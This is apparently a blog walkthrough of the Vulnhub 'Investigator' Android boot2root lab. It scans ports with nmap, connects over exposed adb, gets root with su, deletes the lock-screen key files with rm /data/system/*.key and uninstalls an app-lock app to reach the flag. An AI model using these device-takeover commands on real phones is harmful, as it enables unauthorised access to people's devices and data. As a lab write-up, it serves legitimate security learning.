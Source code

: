 ```yaml
---
date: 2020-07-20 05:20:12
layout: post
title: "Investigator Vulnhub Walkthrough"
subtitle:
description: Investigator:1 is a boot2root VM from Vulnhub. This is an android machine and its difficulty is easy.
image: /assets/img/uploads/investigator/detective.png
optimized_image: /assets/img/uploads/investigator/detective-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: investigator, investigator 1 walkthrough, investigator writeup, investigator vulnhub walkthrough, vulnhub investigator, infosec articles, vulnhub investigator walkthrough 
---
```


Today I will be sharing a walkthrough of Investigator machine available on Vulnhub. This is an android machine and rated for absolute beginners. This includes connecting to the VM via adb and then bypassing its security to read our flag. Let's Begin!

## Enumeration

I started the enumeration by running a port scan with Nmap, checking default scripts.

```r
root@kali:~/Documents/vulnhub/investigator# nmap -sC -sV -oN nmap/intial 192.168.1.9

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.9
Host is up (0.00018s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE  VERSION
5555/tcp open  freeciv?
8080/tcp open  http     PHP cli server 5.5 or later
|_http-title: Welcome To  UnderGround Sector
MAC Address: 08:00:27:B3:57:0D (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.06 seconds
```
Port 8080 was running a php webserver. Looking at it in the browser, there was some information but it was not clear. 

<center><br><br>
<img src="/assets/img/uploads/investigator/port8080.png">
</center>

I started a gobuster scan in the background but that didn't gave me any interesting directory. Then I moved to the next port 5555 for further enumeration. For connecting to this port you need to install <b>adb.</b> You can install it by using the following command:

```r
$ sudo apt install adb
```

After installing, we can connect the target machine to adb by using the <b>adb connect</b> command followed by the IP of the machine and we can also see the connected devices using <b>adb devices</b> command.

```r
root@kali:~/Documents/vulnhub/investigator# adb connect 192.168.1.9
connected to 192.168.1.9:5555

root@kali:~/Documents/vulnhub/investigator# adb devices
List of devices attached
192.168.1.9:5555        device
```
Once the device is connected, we can open a shell on the target machine via adb using <b> adb shell</b> command. We can then pivot to root using <b>su.</b>

```r
root@kali:~/Documents/vulnhub/investigator# adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)

@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ #
```

Now we can read our first flag present in the home directory.

```r
uid=0(root) gid=0(root)@x86:/ # cd /data/root/
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!!

Itz a easy one right ???

lets make this one lil hard
                       

You flag is not here  !!!


Agent "S"   Your Secret Key ---------------->259148637
```

## Final Flag

Next, I tried to use the android machine manually, The machine displays a lock screen and asks us to enter a pin. I tried entering the pin 6666666666 and 259148637 but none of them worked.

<center><br><br>
<img src="/assets/img/uploads/investigator/lock-screen.png">
</center>

We can bypass this login screen using adb. For this we need to delete the login key present in the system directory.

```r
uid=0(root) gid=0(root)@x86:/data/root # rm /data/system/*.key
uid=0(root) gid=0(root)@x86:/data/root # exit
```

Now when you restart the machine, the login screen does not appear. We can now access all apps inside the phone, but most of them are still protected by a third party app lock.

<center><br><br>
<img src="/assets/img/uploads/investigator/app-lock.png">
</center>

We need to use adb again to remove this app. Use the <b>adb uninstall</b> command followed by the app name to uninstall any app. In this case, I'll be removing the app lock.

```r
root@kali:~/Documents/vulnhub/investigator# adb uninstall com.martianmode.applock
```

Once the app lock is uninstalled, restart the machine, Now it will not ask for any password and we can read the final flag in the Messages App.

<center><br><br>
<img src="/assets/img/uploads/investigator/flag.png">
</center>

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> 

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/wuzx">wuzx.</a>